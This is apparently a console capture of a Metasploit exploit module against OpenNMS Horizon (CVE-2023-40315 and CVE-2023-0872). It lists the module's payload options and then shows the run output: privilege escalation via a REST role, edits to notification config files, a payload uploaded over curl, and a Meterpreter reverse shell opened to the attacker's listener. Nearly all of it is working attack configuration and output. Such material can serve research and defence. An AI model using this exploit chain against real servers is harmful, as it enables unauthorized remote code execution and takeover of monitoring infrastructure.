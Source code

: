 ```
   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.91.196   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      fZn              no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.91.196   no        Local IP to use for serving payload
   FETCH_SRVPORT       8081             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.91.196   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf exploit(linux/http/opennms_horizon_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.196:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] The target is OpenNMS version 31.0.7 and is likely vulnerable to CVE-2023-40315 and CVE-2023-0872.
[+] The target appears to be vulnerable. User rest has ROLE_REST privileges. Exploitation is likely possible via CVE-2023-0872.
[+] Successfully escalated privileges by adding ROLE_FILESYSTEM_EDITOR
[*] Successfully edited notificationCommands.xml
[*] Successfully edited destinationPaths.xml
[*] Successfully edited notifications.xml
[+] Successfully uploaded the payload to rebxympptby.bsh
[*] Triggering the notification to execute the payload
[*] Received expected response while triggering the payload. Please be patient, it may take a few seconds for the payload to execute.
[*] Sending stage (3045380 bytes) to 172.20.0.2
[*] Meterpreter session 1 opened (192.168.91.196:4444 -> 172.20.0.2:56974) at 2023-12-13 17:30:55 +0200
[*] Attempting cleanup...

meterpreter > getuid
Server username: opennms

```
